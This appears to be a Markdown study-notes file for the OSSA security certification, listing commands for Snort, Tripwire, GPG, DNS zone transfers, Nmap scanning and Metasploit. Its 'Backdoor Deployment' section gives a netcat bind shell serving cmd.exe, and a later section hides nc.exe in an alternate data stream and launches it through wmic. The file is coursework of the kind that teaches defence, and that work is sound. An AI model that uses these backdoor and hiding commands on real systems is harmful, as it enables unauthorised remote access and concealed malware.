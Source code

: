 # OSSA Summary

## Description
Useful notes and summaries for the Organisational System Security Analyst (OSSA) Certification

## Table of Contents
```toc
```

## Commands
### Network-Based IDS Configuration (Snort)
- Starting snort:
```
snort -c /etc/snort/snort.conf
```

- View all Snort logs:
```
tail -f /var/log/snort/alert
```

- Check the latest Snort log:
	- `<filename>` is the desired log file
```
more /var/log/snort/<filename>
```

### File Integrity Checker and Host-Based IDS (Tripwire)
- Take a snapshot of the system:
```
tripwire --init
```

- Check for any changes in the file system:
```
tripwire --check
```

- View Tripwire report:
```
twprint -m r --twrfile /var/lib/tripwire/report/<filename>
```

- Policies can be edited on the Tripwire Policy text file: `twpol.txt`

- Update the Tripwire database whenever `twpol.txt` was edited:
```
tripwire --update --twrfile /var/lib/tripwire/report/<filename>
```

### Cryptography (GPG)
- Generate a new keypair:
```
gpg --gen-key
```

- Import third-party public keys:
```
gpg --import <filename>
```

- View the imported keys:
```
gpg --fingerprint
```

- Sign the imported key to show that verification of the public keys was done:
```
gpg --sign-key <keyid>
```

- Verify the signature of the file:
```
gpg --verify <public_signature> <filename_to_check> 
```


### DNS Reconnaissance
- Find IP address of server:
```
dig securitystartshere.org
```

**dig options:**
- `mx` - find **mail exchanger** records
- `ns` - find **name server** records 
- `soa` - find **SOA (Start of Authority)** 
	- stores information about the name of the server, zone administrator, current version of zone data file etc.

**Perform a zone transfer of the pod's DNS internal server**
```
dig @10.50.6.1 pod6.com axfr
```

### Port Scanning (Nmap)
- **Ping Sweep:**
```
nmap -sP -n 10.50.6.0/24
```

- **SYN Stealth Scan:**
```
nmap -sS <ip address> 
```

- **Suggested SYN Scan:**
```
nmap -sS -n -Pn -vv -p<target port range> -g<source port range> <target IP address> --max-retries=<value> --min-parallelism<value> --max-rtt-timeout=<value>ms
```

- **ACK Scan:**
```
nmap -sA <ip adress>
```

- **OS Version Detection:**
```
nmap -sV -Pn -n -p80,135-139,445 -vv 10.50.6.3
```

### ARP Spoofing
- Find the internet gateway IP address:
```
route -n
ipconfig (Windows)
```

- View ARP cache:
```
arp -a
```

### Exploitation (Metasploit)
- View list of exploit codes:
```
show exploits
```

- Show options supported for an exploit:
```
show options
```

- Set `RHOST`:
```
set RHOST <ip address>
```

- Set `TARGET` option:
```
set TARGET <option number>
```

- Show all targets support for the exploit
```
show targets
```

- Show all payloads offered for the exploit
```
show payloads
```

- Execute the exploit:
```
exploit
```

### Backdoor Deployment
**Stations:**
- station1 - Windows Workstation
- station2 - Linux OS

**Commands:**
- Run netcat on station1:
```
nc -l -p 48800 -e <windows directory name>\system32\cmd.exe
```

- Run netcat on station2:
```
nc <ip address> 48800
```

### File Hiding with Alternate Data Streams
- Using the `type` command to stream (hide) a file:
```
type c:\6\nc.exe . c:\hobbit.txt:hidenc.exe
```

- To run the streamed (hidden) executable:
```
wmic process call create c:\<full file path>:hidenc.exe
```

- Streaming (hiding) a text file:
```
notepad c:\<full file path>:hidden.txt
```

### File Hiding with Steganography
